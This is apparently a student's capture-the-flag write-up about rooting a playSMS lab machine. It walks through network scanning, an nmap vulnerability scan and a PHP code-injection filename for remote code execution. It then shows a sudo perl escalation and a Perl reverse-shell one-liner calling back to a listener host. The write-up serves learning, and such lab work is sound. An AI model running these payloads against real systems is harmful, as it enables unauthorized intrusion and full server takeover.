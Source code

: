 # CHALLENGE-1 : Gaining Access to Remote Server

We are given a ova file which we need to import in our VM-ware. After opening it we are able to run the website on that machine. We do not have root privilege of the machine provided, so there's no way to know its IP address just by doing- 'sudo ifconfig'.

So I have my second machine(Linux-based) running on same network. So I performed the network scan using -

```bash
sudo arp-scan --localnet
```
Screenshot is given -
![localarp](images1/localarp.png)

This is how I got the IP of the hackme machine.

Now to know or to take out information of vulnerability of any website I used nmap in following way-
```bash
sudo nmap --script vuln <target website>
```
So here's what I got. I  got that on website there is robots.txt which is a quite interesting file always :) and also observed that there was an extra file in the result '/secure' which was not mentioned in the 'robots.txt' as well. So, after opening the '/secure' directory on the web I found a 'backup.zip' folder..I extracted it in my machine and tried to open it but it required a 'password' to open it.

![vuln](images1/vuln.png)

 As I have visited the '/nothing' directory I inspected the page and got a list of passwords. I tried each of the passwords and found that 'freedom' was the correct password which worked. Then inside that zip file I got 'backup-cred.mp3' file and straight away did-

```bash
strings backup-cred.mp3
```
Here's what I got:
![mp3](images1/Mp3.png)

Now I reached the login page of playSMS. I took the username:touhid and tried all the passwords and got 'diana' as a correct one and was able to login successfully..!! 

Now when I observed the website I went on to 'My account' tab ,there I clicked 'send from file' option which stated only csv files are allowed. So , I got a clue that there must be a vulnerability related to uploading files. 
As I did inspect element on the webpage I found <--kurakura cinta kamu.......sampai mati...--> which I thought something to be interesting. So I started surfing about it, and to my surprise I found the similar challenge on it. I got the script of all the webscraping of playSMS website and after doing the necessary changes I completed writing the script which would give me shell of the machine from which the website was running. When using Burpsuite , while intercepting I changed the file name as -
```bash
filename=flag.<?php system("pwd"); ?>.png
```
I got the directory to be var/www/SecreTSMSgatwayLogin. So this is how I got to know that Remote code execution is possible and used my script accordingly.Now I started my script by typing -
```bash
$ python3 SAIC1.py --url <put the url> --username touhid --password diana --i
```
Then I got the shell but I was not into the root directory so it was the same condition which I saw in the last year submissions. I got the idea how to move forward once I saw Vanshaj bhaiya's submission he used the command 'python -c 'import pty;pty.spawn ("/bin/bash");'therefore by observing this I did 'sudo -l' in the obtained shell to get some info and to my interest I got-
![sudol](images1/sudol.png)

Then I executed a command in that shell to get into www-data and perform high privilege commands in /usr/bin/perl (similar to the one used by Vanshaj bhaiya )-
```bash
>sudo -u www-data /usr/bin/perl -e 'exec "/bin/bash -i";'
>whoami
www-data
```
Now I was in www-data and can now execute some high privilege commands, so after surfing through the Youtube I found how to go to main root directory, for that purpose I entered whose purpose was to shift me to the root directory in the 'saic' machine and give me an interactive shell which I  would be able to listen on my localhost(Linux-machine) on port 4444 -

So before running the command I started listening on port 4444 by entering this in my machine-
```bash
$ ncat -l -p 4444 -k
```
After this command I ran the below command in the www-data shell-

```bash
>perl -e 'use Socket;$i="192.168.9.152";$p=4444; socket (S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if (connect (S,sockaddr_in($p'inet_aton($i)))) {open (STDIN, ">&S"); open (STDOUT, ">&S"); open (STDERR, ">&S"); exec("/bin/sh -i");};'
```
Here's what I did-
![comm](images1/com.png)
Then in my ncat I saw no change so I entered 'id' and it gave out as-

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```
Hurray..!! I got the root shell and straightaway I did the following and got the flag-
```bash
cd /root
ls
flag.txt
cat flag.txt
Well done, Neo!
```
#### PS: It took me almost a day to get till the flag. Majority of the time was spent in the last step of about how do we change the directories to get root access.

## Resources:
1] https://github.com/jasperla/CVE-2017-9101/blob/master/playsmshell.py

2] https://www.exploit-db.com/



 



